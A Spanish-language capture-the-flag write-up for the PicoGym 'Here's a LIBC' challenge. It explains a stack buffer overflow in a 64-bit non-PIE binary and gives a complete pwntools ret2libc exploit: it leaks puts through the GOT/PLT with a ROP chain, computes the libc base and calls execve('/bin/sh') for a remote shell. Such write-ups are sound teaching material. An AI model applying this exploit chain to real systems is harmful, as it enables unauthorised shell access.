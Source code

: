 # Here's a LIBC - PicoGym

## Reconocimiento

Se nos da un ejecutable que utiliza una versión anterior de *libc* (que nos da el ejercicio). Por lo tanto comenzamos *patcheando* el binario con [[pwninit]]:

```bash
pwninit
```
```pwninit
bin: ./vuln
libc: ./libc.so.6

fetching linker
https://launchpad.net/ubuntu/+archive/primary/+files//libc6_2.27-3ubuntu1.2_amd64.deb
unstripping libc
https://launchpad.net/ubuntu/+archive/primary/+files//libc6-dbg_2.27-3ubuntu1.2_amd64.deb
setting ./ld-2.27.so executable
copying ./vuln to ./vuln_patched
running patchelf on ./vuln_patched
writing solve.py stub
```

Ya podemos ejecutarlo, aunque no vemos gran cosa, simplemente un programa que devuelve tu input en *camel-case*. SI le pasamos [[checksec]]:

```bash
checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   68 Symbols
```

Lo único destacable es que es un binario de **64 bits** y que tiene el **bit NX**, por lo que no podremos ejecutar código del stack. Mediante [[ghidra]], descubrimos que es posible realizar un [[Buffer overflow]], como no hay ninguna función que nos de la flag, podemos intentar saltar a **LIBC**.

Sin embargo, falta una cosa: la función de *libc* a la que saltar. Por suerte en el código tenemos una función *puts* que imprime el valor guardado en una dirección que se le pasa como argumento. Haremos lo siguiente:

1. Creamos una [ROP chain](https://en.wikipedia.org/wiki/Return-oriented_programming), utilizando *gadgets locales*, para pasar a _puts_ la dirección de la [GOT table](https://ctf101.org/binary-exploitation/what-is-the-got/) (se puede porque el binario no es PIE, además las direcciones de la GOT son estáticas y visibles desde [[ghidra]]).
2. Saltamos a *puts* (aunque es más seguro hacerlo desde la **PLT**)
3. Imprimimos la dirección (dinámica) de *puts*.
4. Forzamos al programa a retornar a la primera instrucción de *main*, para poder volver a ejecutar el buffer overflow.
5. Volvemos a crear una *ROP chain* para saltar a **execve** y ejecutar */bin/sh*.

## Explotación

Lo primero será encontrar el *offset*, podemos hacerlo con [[gdb]] y [[pwntools]] (con **cyclic**). En mi caso es `136`.

Además necesitamos algunos gadgets:

- El gadget `pop rdi, ret;` -> `0x0000000000400913`
- La dirección en la GOT de *puts*.
- La dirección en la PLT de *puts*.
- La dirección de la primera instrucción de *main* -> `0x0000000000400771`

Para el primero puedes utilizar [[ropper]], y el resto se pueden sacar con [[ghidra]] (aunque los sacaremos directamente con [[pwntools]]).

Así, teniendo la dirección de *puts* de la *libc*, podemos calcular la *dirección base*:

```
Libc_base = Leaked_address - Static_offset
```

Asumiendo que la dirección base de la librería es `0x0000000000000000`.

Con la dirección base de *libc*, seremos capaces de sacar (mediante [[pwntools]]):

- *execve*
- `/bin/sh\x00`
- Un puntero nulo (`\x00`)

Para la segunda cadena necesitaremos además (con [[ropper]]):

- `pop rsi, ret;`
- `pop rdx, ret;`

```python
#!/bin/python3
from pwn import *

HOST = 'mercury.picoctf.net'
PORT = <insert_your_port>
EXE  = './vuln'

if args.EXPLOIT:
    r = remote(HOST, PORT)
    libc = ELF('./libc.so.6')

exe = ELF(EXE)

#Found with ropper
pop_rdi = 0x400913
pop_rsi = 0x023e8a
pop_rdx = 0x001b96
offset  = libc.symbols['puts']

r.recvuntil(b'sErVeR!\n')

payload  = b'A'*136
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.symbols['main'])    #Base dir of main

r.sendline(payload)
r.recvline()

leak = r.recv(6)+b'\x00\x00'   #To fix allignment (8 bytes)
leak = u64(leak)

libc.address = leak - offset

binsh = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']
nullptr = next(libc.search(b'\x00'*8))
execve = libc.symbols['execve']

payload  = b'A'*136
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(libc.address + pop_rsi)
payload += p64(nullptr)
payload += p64(libc.address + pop_rdx)
payload += p64(nullptr)
payload += p64(execve)

r.sendline(payload)
r.interactive()
```

Y deberíamos lograr una shell. Ya solo quedaría abrir la flag con *cat*.